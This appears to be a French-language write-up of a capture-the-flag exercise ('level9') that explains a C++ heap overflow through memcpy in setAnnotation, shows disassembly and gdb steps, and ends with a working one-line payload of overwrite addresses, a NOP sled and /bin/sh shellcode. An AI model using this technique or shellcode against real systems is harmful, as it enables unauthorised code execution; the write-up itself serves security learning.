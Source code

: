 Cette fois, le programme est en c++, avec une classe N. On remarque qu'il n'y a pas d'appel à /bin/sh, on suppose qu'on va devoir injecter un shellcode. Il y a aussi l'utilisation de la fonction memcpy dans la fonction setAnnotation de la classe N, qui va permettre de faire un overflow.

Le seul problème est que le pointeur est déférencé deux fois au moment du return d'EIP:
```
08048677 e8 92 00        CALL       N::setAnnotation                                 undefined setAnnotation(N * this
            00 00
0804867c 8b 44 24 10     MOV        nClass2,dword ptr [ESP + 0x10]=>local_20
08048680 8b 00           MOV        nClass2,dword ptr [nClass2]
08048682 8b 10           MOV        EDX,dword ptr [nClass2]
08048684 8b 44 24 14     MOV        nClass2,dword ptr [ESP + 0x14]=>local_1c
08048688 89 44 24 04     MOV        dword ptr [ESP + 0x4]=>local_2c,nClass2
0804868c 8b 44 24 10     MOV        nClass2,dword ptr [ESP + 0x10]=>local_20
08048690 89 04 24        MOV        dword ptr [ESP]=>local_30,nClass2
08048693 ff d2           CALL       EDX

```
Ce qui équivaut globalement à la syntaxe `(nPointer2->*nPointer2->operatorFunctionPointer)(*nClass1)`. 

En conséquence, le code va se rendre sur la première adresse pointée par EIP, puis prendre l'adresse à ce nouvel emplacement, se rendre dessus, ET uniquement à partir de là reprendre l'exécution du code. Donc il va falloir utiliser deux adresses mémoires.

Il faut donc trouver l'adresse mémoire de la string. On ouvre level9 dans gdb, on met un breakpoint juste après l'appel à setAnnotation, puis on print $eax. On voit que c'est 0x0804a00c.

L'adresse qui va override EIP en premier doit se trouver après 108 chars. On fait pointer sur l'adresse qu'on vient de trouver. Ensuite, on peut faire pointer sur la zone entre buffer[4] et buffer[107], ou bien pointer après la string. Faire après nous donne plus d'espace pour faire une longue nopsled donc on part sur après. Si on regarde $eax après avoir rempli le buffer de A, on peut voir que les addresses à partir de 0x0804a07c peuvent être ciblées. On part sur 0x0804a18c pour être large.

Donc le payload final ressemble à

`./level9 $(python -c "print '\x8c\xa1\x04\x08' + 'A' * 104 + '\x0c\xa0\x04\x08' + '\x90' * 500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")`
